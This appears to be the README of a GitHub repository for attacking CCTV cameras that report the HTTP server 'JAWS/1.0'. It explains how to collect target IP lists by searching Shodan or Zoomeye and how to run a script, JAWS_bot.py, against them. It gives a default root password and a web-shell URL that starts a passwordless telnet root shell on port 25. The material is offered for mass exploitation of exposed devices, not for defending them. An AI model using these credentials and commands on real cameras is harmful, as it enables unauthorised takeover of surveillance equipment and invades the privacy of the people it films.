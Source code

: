 # Pwning-CCTV-cameras
Exploiting cameras with a very distinctive HTTP Server header of "JAWS/1.0".

The detailed description of the vulnerability is shown in the link below.  
https://www.pentestpartners.com/security-blog/pwning-cctv-cameras/

Throuth searching the string "JAWS/1.0" in Shodan or Zoomeye, we can get target IP list. Executing the JAWS_bot.py to get the devices which have the vulnerability.
JAWS_bot.py is based on two methods: weak password and the built-in web shell.  
  -weak password: "root":"juantech".  
  -built-in web shell: inputing url like "http://192.168.3.101/shell?/usr/sbin/telnetd -l/bin/sh -p 25" to bind the telnet service to port 25 that without password.  
